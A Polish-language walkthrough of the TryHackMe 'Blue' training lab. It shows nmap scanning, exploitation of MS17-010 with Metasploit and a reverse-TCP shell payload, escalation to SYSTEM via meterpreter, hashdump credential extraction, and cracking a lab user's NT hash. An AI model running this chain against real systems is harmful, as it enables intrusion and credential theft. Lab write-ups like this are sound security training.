# **TryHackMe - Blue**

**Autor:** adi7312

**Poziom trudności:** Łatwy

## **Task 1 - Recon**

Dokonujemy skanowania podatnej maszyny, będziemy szukać poniższych informacji:

* Wersja OS
* Wersje usług hosta
* Liczba otwartych portów

```bash
nmap -O -sV -p- 10.10.251.166
```





Możemy więc odpowiedzieć na pierwsze zadane pytanie:





Teraz postaramy się ustalić na co podatna jest nasza maszyna, uruchamiamy polecenie:

    nmap -sV -vv --script vuln 10.10.251.166





Jak możemy zauważyć nasza maszyna ma podatny na atak protokół SMB (nazwa podatności: `ms17-10`). Możemy więc odpowiedzieć na ostatnie pytanie z tego zadania.





## **Task 2 - Gain Access**

W celu zdobycia dostępu do systemu skorzystamy z frameworku *Metasploit*. W msfconsole wpisujemy polecenie: `search CVE-2017-0143` (czyli szukamy podatności o podanym wcześniej przez nmapa identyfikatorze). Skorzystamy z pierwszzego exploita, wpisujemy polecenie `use 0`. 





Możemy zatem odpowiedzieć na pierwsze pytanie zadane w tym zadaniu:





Następnie sprawdzamy jakie parametry trzeba ustawić, robimy to poleceniem `options`, jak widzimy musimy ustawić `RHOSTS` (jest to jednocześnie odpowiedź do następnego pytania). Wpisujemy zatem polecenie `set RHOSTS 10.10.251.166`.





Zanim wpiszemy `exploit` powinniśmy jeszcze zmieć *payload* na poniższy:

    set payload windows/x64/shell/reverse_tcp


Teraz możemy wpisać `exploit`. Otrzymaliśmy shella.


## **Task 3 Escalate**

Chcemy teraz ulepszyć shella do meterpretera, wychodzimy z naszej sesji (CTRL+Z) i szukamy w Metasploicie odpowiedniego modułu który ulepszy nam shella to meterpretera. Po znalezieniu wpisujemy `use 0` i ustawiamy niezbędnę parametry (w tym przypadku SESSION).





Wpisujemy `exploit`, po zakończeniu procesu tworzenia sesji meterpretera, możemy do niego przejść w tym celu wpisujemy `sessions -i 3`. Możemy teraz potwierdzić że jesteśmy *NT AUTHORITY\ SYSTEM* (wchodzimy też w sesję 2, aby to potwierdzić).





W sesji *meterpretea* wpisujemy teraz polecenie `ps` w celu wypisania wszystkich pracujących procesów, twórcy CTF karzą nam zapisać PID procesu który jest używany przez *NT AUTHORITY\ SYSTEM* i znajduje się na samym dole. Jednak twórcy jednocześnie ostrzegają że zmiana procesu jest niestabilna i może nie zadziałać w takim wypadku należy skorzyzstać z innego *PID*, my skorzystamy z `PID: 712`.





## **Task 4 Cracking**

Następnie *dumpujemy* hasła w meterpreterze poleceniem `hashdump`. Możemy odpowiedzieć teraz na pierwsze pytanie:








Naszym zadaniem jest teraz złamanie hasła użytkownika john. Zapisujemy hash hasła johna do pliku `hash.txt`. Następnie korzystamy z polecenie (do łamania hasła skorzystamy z pliku rockyou.txt).

    john --format=nt --wordlist=/root/Desktop/wordlists/rockyou.txt /root/Desktop/hash.txt





Hasło Jon'a to `alqfna22`.





## **Task 5 Find flags!**

W celu znalezienie flag wpisujemy polecenie:

    dir *flag*.* /s

Teraz mamy ładnie wypisane lokalizacje naszych flag, pozostało je jedynie odczytać.





Będziemy teraz wpisywać polecenie:`type <lokalizacja flagi>`.





Możemy teraz uzupełnić odpowiedzi na stronie i zakończyć cały CTF.



